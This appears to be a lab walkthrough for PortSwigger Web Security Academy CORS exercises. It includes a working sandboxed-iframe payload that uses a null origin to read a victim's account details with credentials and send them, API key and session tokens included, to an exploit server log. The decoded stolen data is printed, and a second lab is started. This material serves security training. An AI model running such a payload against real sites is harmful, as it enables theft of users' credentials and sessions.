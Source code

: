  ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-null-origin-2.png)

the "null" origin is reflected in the Access-Control-Allow-Origin header,  so to exploit this bug we need to generate a null origin request so we will 
use an iframe sandbox.
 ````
 <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest ();
  req.onload = reqListener;
  req.open('get','https://ac2a1f601e8f3543806a2278000d00bf.web-security-academy.net//accountDetails',true);
  req.withCredentials = true;
  req.send();
 
  function reqListener() {
    location='https://exploit-aca81f7b1eb4351d80cd22c901ca00b0.web-security-academy.net//log?key='+encodeURIComponent(this.responseText);
  };
 </script>"></iframe> 
 ````
 go to exploit server, in Body: put the code of exploitation and store it 
view the exploit 

 ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-null-origin-3.png)

 Delever exploit to victim.  Access log and search about the key
 
 ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-null-origin-4.png)

 let’s decode it
 ````
 /log?key={
 "username": "wiener",
 "email": "",
 "apikey": "wCOeetn12uCexWQylzhQXy5Y1dV2elvs",
 "sessions": [
 "UJsJdrc0JeCEeF6P4IcHI80Gbfq6YFIZ"
 ]
}
````
 ![](https://raw.githubusercontent.com/H3X0S3/H3X0S3.github.io/master/assets/img/CORS/CORS-vulnerability-with-trusted-null-origin-5.png)

Labe Solved

------------

# Lab: CORS vulnerability with trusted insecure protocols

After login to the lab and intercept the request then send it to the repeater
lets to inject 
 `origin: H3X0S3.com`
 we get 500 Internal Server Error
`origin: null`
we get 500 Internal Server Error. Now we need to try to inject with a subdomain but before injecting with subdomain we should find a bug on the subdomain to allow us to inject JavaScript code.
let’s open any product and check the productid 
> stock.ac6d1f111e6b213580242fdb00b9006b.web-security-academy.net/?productId=1&storeId=1 ok it is a subdomain stock.ac6d1f111e6b213580242fdb00b9006b.web-security-academy.net/?productId=1&storeId=1
 
